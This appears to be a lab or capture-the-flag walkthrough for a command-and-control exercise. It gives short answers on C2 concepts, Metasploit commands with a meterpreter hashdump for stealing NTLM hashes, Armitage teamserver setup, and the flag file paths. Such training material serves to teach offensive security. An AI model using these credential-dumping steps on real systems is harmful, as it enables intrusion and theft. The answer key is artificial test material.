








Task 2

What is the term for the software on a compromised computer that communicates back to a command and control (C2) server?
Agent

What is the beaconing option that introduces a random delay value to the sleep timer?

Jitter

What is the term for the first portion of a Staged payload?

Dropper

What is the name of the communication method that can potentially allow access to a restricted network segment that communicates via TCP ports 139 and 445?

SMB Beacon

Task 5

Which listener should you choose if you have a device that cannot easily access the internet?
DNS

Which listener should you choose if you're accessing a restricted network segment?

SMB

Which listener should you choose if you are dealing with a Firewall that does protocol inspection?

HTTPS

Task 6

What is the Administrator's NTLM hash?

msfconsole -q
set LHOST <network-interface>
set RHOST <victim_ip>
run

meterpreter> hashdump

What flag can be found after gaining Administrative access to the PC?

Follow the steps on Task 4

git clone https://gitlab.com/kalilinux/packages/armitage.git && cd armitage
bash package
systemctl start postgresql && systemctl status postgresql.sh
export MSF_DATABASE_CONFIG=/root/.msf4/database.yml
cd /opt/armitage/release/unix && ./teamserver YourIP P@ssw0rd123
cd /opt/armitage/release/unix && ./armitage (in other terminal tab)

Then, follow the steps on Task 4 adapting to your needs

After you gain access, the flag is at C:\Users\Administrator\Desktop\root.txt

What flag can be found after gaining access to Ted's user account?

After you gain access, the flag is at C:\Users\Ted\Desktop\user.txt

What is Ted's NTLM Hash?

msfconsole -q
set LHOST <network-interface>
set RHOST <victim_ip>
run

meterpreter> hashdump

